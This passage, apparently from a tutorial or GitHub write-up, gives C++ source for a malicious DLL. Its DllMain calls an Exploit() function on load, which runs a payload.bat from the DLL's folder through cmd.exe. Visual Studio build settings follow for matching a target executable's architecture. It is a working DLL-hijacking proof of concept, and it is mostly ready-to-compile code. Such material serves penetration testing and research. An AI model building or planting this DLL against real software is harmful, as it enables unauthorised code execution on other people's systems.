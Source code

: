 ```cpp
    {
        GetModuleFileNameW(hm, path, sizeof(path));
        PathRemoveFileSpecW(path);
        thisPath = CStringW(path);
        if (!thisPath.IsEmpty() &&
            thisPath.GetAt(thisPath.GetLength() - 1) != '\\')
            thisPath += L"\\";
    }
    return thisPath;
}

int Exploit()
{
    // Create the command line 
    std::wstring fullpath(TEXT("cmd.exe /C \""));
    fullpath += ThisDllDirPath();
    fullpath += std::wstring(TEXT("payload.bat\""));
    TCHAR * fullpathwc = (wchar_t *)fullpath.c_str();

    // Start a new process using the command line 
    STARTUPINFO info = { sizeof(info) };
    PROCESS_INFORMATION processInfo;
    CreateProcess(NULL, fullpathwc, NULL, NULL, TRUE, CREATE_DEFAULT_ERROR_MODE, NULL, NULL, &info, &processInfo);

    return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        Exploit();
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Here are some configuration tips for Visual Studio:

- Create a Console Application Project in Visual Studio
- `General` - Configuration type: `Dynamic Library (.dll)`
- `C/C++ > Code generation` - Library runtime: `Multithread (/MT)`
- And of course, the architecture must match the architecture of the target executable
